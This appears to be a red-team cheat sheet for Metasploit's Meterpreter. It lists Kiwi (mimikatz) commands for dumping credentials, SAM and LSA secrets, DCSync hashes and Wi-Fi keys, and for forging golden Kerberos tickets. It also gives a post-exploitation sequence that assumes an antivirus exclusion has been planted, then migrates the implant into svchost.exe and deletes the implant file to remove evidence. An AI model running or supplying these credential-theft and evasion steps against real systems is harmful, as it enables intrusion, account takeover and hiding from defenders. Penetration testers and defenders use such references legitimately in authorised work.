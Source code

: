 ### Kiwi Commands

```
Command                Description
-------                -----------
creds_all              Retrieve all credentials (parsed)
creds_kerberos         Retrieve Kerberos creds (parsed)
creds_msv              Retrieve LM/NTLM creds (parsed)
creds_ssp              Retrieve SSP creds
creds_tspkg            Retrieve TsPkg creds (parsed)
creds_wdigest          Retrieve WDigest creds (parsed)
dcsync                 Retrieve user account information via DCSync (unparsed)
dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
golden_ticket_create   Create a golden kerberos ticket
kerberos_ticket_list   List all kerberos tickets (unparsed)
kerberos_ticket_purge  Purge any in-use kerberos tickets
kerberos_ticket_use    Use a kerberos ticket
kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
lsa_dump_sam           Dump LSA SAM (unparsed)
lsa_dump_secrets       Dump LSA secrets (unparsed)
password_change        Change the password/hash of a user
wifi_list              List wifi profiles/creds for the current user
wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

* Although all these commands may seem available under the help menu, they may not all work. For example, the target system might not have a webcam, or it can be running on a virtual machine without a proper desktop environment.

### New Meterpreter Session Steps

* Assuming you gained access, inserted AV Path Exception, wrote implant to disk and executed to catch you callback

```
getuid #see your user context
getpid #identify pid you are running as (should be the pid of your msfvenom implant named whatever you assigned)
getprivs #see enabled process privileges
ps #view the whole process list and pick and svchost process within the same user context, get its pid number
migrate XXXX #to the pid of the svchost process 
getpid #confirm new pid
ps #ensure it is of the correct process 
del /path/to/implant #remove implant artifact from disk 
```

* Now you are set up and running as a thread in the address space of the `svchost.exe` process

### Accessing the Filesystem&#x20;

* Common commands include&#x20;
* **cd** - change directory on the target
* **cat** - read and output to stdout the contents of a file
* **del** - delete a file on the target
* **edit** - edit a file with vim
* **ls** - list files in current directory
* **mkdir** - make a directory on the target system
* **rmdir** - remove directory on the target system
